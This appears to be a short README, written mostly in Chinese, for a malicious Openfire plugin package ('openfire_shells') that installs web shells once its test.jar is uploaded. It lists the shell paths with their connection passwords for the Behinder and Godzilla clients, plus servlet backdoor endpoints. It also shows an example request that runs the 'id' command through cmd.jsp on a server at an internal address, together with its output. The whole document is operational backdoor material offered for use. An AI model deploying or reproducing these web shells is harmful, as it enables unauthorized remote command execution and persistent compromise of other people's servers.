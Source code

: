 # build requirements:
ant1.9
jdk1.6

上传 openfire_shells/src/plugins/test/bin 下的test.jar后


```
usages:

/plugins/test/re2.jsp pass 冰蝎2.0 
/plugins/test/re3.jsp rebeyond 冰蝎3.0
/plugins/test/god.jsp pass  哥斯拉v1.0 =>> v3.03

/plugins/servlet/chropper?
/plugins/servlet/test?
```

漏洞利用：

0x01 执行系统命令

`http://10.20.31.189:9090/plugins/test/cmd.jsp?pwd=023&i=id

```
uid=102(openfire) gid=105(openfire) groups=105(openfire)

```

冰蝎由于请求的包返回在
<div id="jive-main-content">标签内，客户端导致无法获取相关数据，提示“页面存在，但是无法获取秘钥”
